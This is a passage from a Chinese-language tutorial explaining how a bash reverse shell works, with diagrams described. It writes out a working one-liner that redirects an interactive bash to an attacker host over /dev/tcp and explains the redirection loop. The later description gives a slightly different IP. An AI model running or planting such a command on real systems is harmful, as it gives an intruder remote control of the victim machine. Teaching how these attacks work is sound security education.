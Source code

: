 示意图：

![img](assets/1668671591152-efe5fff2-604c-481c-9beb-42aacf6bf0e7.png)

这条指令的意思是将攻击者输入的命令输入给受害者的bash，自然就能执行了

现在我们需要将两条指令结合起来（如果这条指令看不懂可以去看一下我上面提供的文章的链接再回来看这条指令）：

```shell
bash -i > /dev/tcp/192.168.146.129/2333 0>&1
建立交互式shell，将受害机标准输出重定向到攻击机，最后再将标准输入重定向复制到标准输出点，形成回环。
```

示意图：

![img](assets/1668671817747-8b9752d7-bc8f-4a02-9bbc-b91ab91c384e.png)

**由这张示意图可以很清楚地看到，输入0是由/dev/tcp/192.168.1.130/2333 输入的，也就是攻击机的输入，命令执行的结果1，会输出到/dev/tcp/192.168.1.130/2333上，这就形成了一个回路，实现了我 们远程交互式shell 的功能**

如下图所示，我在攻击机上输入 ifconfig，查看到的是受害者的ip ，也就是说我们目前已经基本完成了一个反弹shell 的功能。
